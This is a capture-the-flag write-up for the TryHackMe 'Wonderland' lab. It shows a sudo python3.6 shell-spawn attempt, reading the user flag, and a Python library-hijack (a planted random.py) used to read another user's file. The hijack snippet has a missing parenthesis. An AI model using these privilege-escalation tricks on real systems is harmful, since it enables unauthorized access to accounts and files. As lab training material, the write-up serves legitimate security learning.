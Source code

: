 Alice can run `/usr/bin/python3.6` as `rabbit`... python__3.6__. Perhaps we can spawn shell as `rabbit`.

```shell
sudo -u rabbit python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Can't spawn shell as rabbit; must be used specifically on the walrus file in `/alice/home`.

```shell
alice@wonderland:/usr/bin$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```

### Get user flag

Hint on THM is 'everything is upside down'.
/home/alice contains root.txt
/root contains user.txt

```shell
alice@wonderland:~$ cat /root/user.txt
thm{REDACTED}
alice@wonderland:~$ ls -lah
total 52K
drwxr-xr-x 6 alice alice 4.0K Sep 28 21:41 .
drwxr-xr-x 6 root  root  4.0K May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3.7K May 25 02:36 .bashrc
drwx------ 2 alice alice 4.0K May 25 16:37 .cache
drwxr-x--- 3 alice alice 4.0K Sep 28 21:41 .config
drwx------ 3 alice alice 4.0K May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4.0K May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 alice alice  417 Sep 28 21:12 .python_history
-rw-rw-r-- 1 alice alice   66 Sep 28 21:02 .selected_editor
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3.5K May 25 02:43 walrus_and_the_carpenter.py
```

## Get shell as rabbit

Python file `walrus..py` contains an import line. It imports `random`. We can override the import by making a local `random.py` file.

```python
# random.py (attempt to read root.txt)

root_file = open('/home/alice/root.txt', 'r')
def choice(input):
    print("Thanks for your input: %s " % (input))
    print("But this is more interesting: %s" % (root_file.read())
```

Rabbit doesn't have rights to read the root.txt file. Perhaps we can spawn shell instead.
